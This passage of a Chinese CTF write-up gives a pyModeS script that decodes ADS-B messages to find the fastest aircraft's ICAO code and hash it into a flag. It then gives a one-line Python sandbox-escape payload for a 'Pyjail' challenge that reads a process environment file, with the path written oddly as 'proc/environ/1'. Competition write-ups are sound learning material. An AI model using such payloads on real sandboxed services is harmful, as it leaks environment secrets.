 不是所有报文里都有速度信息，这里直接 try 捕获一下完事了（

**exp:**

```plain
import pyModeS as pms

with open('1.txt', encoding='utf-8') as f:
    data = f.read()
data = [s for s in data.splitlines() if s != '']
print(data)

v_max = [0, '']
for d in data:
    if len(d) != 46:
        continue
    msg = d[18:]
    icao = pms.icao(msg)
    print(icao)
    pms.tell(msg)
    # expecting 4<TC<9 or TC=19
    try:
        v = pms.adsb.velocity(msg)
        print(v)
        if v[0] > v_max[0]:
            v_max = [v[0], icao]
    except:
        pass
    print('===============')

print(v_max)
# [371, '79a05e']

from hashlib import md5
# print(md5(v_max[1].encode()).hexdigest())
# # 0832f82e9171df7c80e4c6225946f5c7
print(md5('79A05E'.encode()).hexdigest())
# 4cf6729b9bc05686a79c1620b0b1967b
```

试了下小写的不行，大写的 79A05E 才对

### Pyjail ! It's myFilter !!!

> 你能否能帮助她绕过 filter 呢？是时候拿出真本事！提示：本题需要一定的成功率，如果你认为你的 payload 能够工作，请多尝试几遍！

跟今年国赛某道题蛮像的

```plain
{print(open("proc/environ/1").read())}
```

### Pyjail ! It's myRevenge !!!

源码
